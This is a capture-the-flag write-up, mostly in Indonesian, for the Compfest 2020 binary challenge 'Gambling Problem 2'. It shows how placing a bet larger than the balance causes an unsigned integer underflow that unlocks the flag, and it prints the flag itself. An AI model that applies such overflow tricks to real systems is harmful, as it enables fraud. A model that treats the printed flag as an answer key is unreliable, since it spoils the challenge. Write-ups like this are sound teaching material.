 # Binary Exploitation

| Binary Exploitation  |
| ------------- |
| [Gambling Problem 2](#1-gambling-problem-2-896-pts)|

## 1. Gambling Problem 2 (896 pts)

### Soal: 
Dek Depe found an online gambling service from * redacted * forum. Since this online gambling service has just opened, users are given money to start a gambling career. After being given the bin file through some insiders, Dek Depe realized that there was a deadly bug in the program. Help Dek Depe take advantage of the exploit!

nc 128.199.157.172 25880

Alternate download link:
https://drive.google.com/file/d/1CPDTTMre_LDErUC7aIOna_3AXn2EsG0F/view?usp=sharing

### Pembahasan: 
Kita cek dahulu filenya, didapatkan
File ELF 64-bit, not stripped
lebih lanjut:
```
gamblingProblem: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=3ca1d6aec4f6127e2167ff2750889ef12a4d7a84, for GNU/Linux 3.2.0, not stripped
```
lihat dengan checksec
```
	Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled

```
setelah dekompilasi program pada fungsi <code>shopTime</code>, kami menganalisa bahwa, flag akan diberikan jika uang lebih besar dari 0xdeadbeef dalam desimal 3735928559. hmmm apa bisa ya gambling dapat segitu? :( setelah itu ada barisan kode yang mencurigakan 
```
    if ( (unsigned int)money >= 0xDEADBEEF )
    {
      v1 = "idk what is this but here you go : ";
      sub_11B0("%s\n%s\n");
    }
```
kami berasumsi bahwa itu adalah integer oveflow, ya apa salahnya kita coba-coba wkwk. 
```
We're kind, so here's your starting money, it's on the house :)
Money : 24741

Continue playing (1 = yes/0 = no): 1
Place your bet : 90000
90000

Guess (Number 1-100): 1

```
dan setelah kami input uang menjadi jutaan.
```
Money : 4294542037

Continue playing (1 = yes/0 = no): 

```
setelah itu kita tukarkan uang untuk mendapatkan flag
berikut script yang kami buat [klik disini](https://github.com/ahm4ddm/Arsip-WU/blob/binary/Compfest%202020/Binary%20Exploitation/gambling-problem-2/solver.py)

<details>
<summary>Flagnya</summary>
COMPFEST12{laptop_pembuat_soalnya_BSOD_so_this_is_Zafirr_again_lol_39cbc5}
</details>

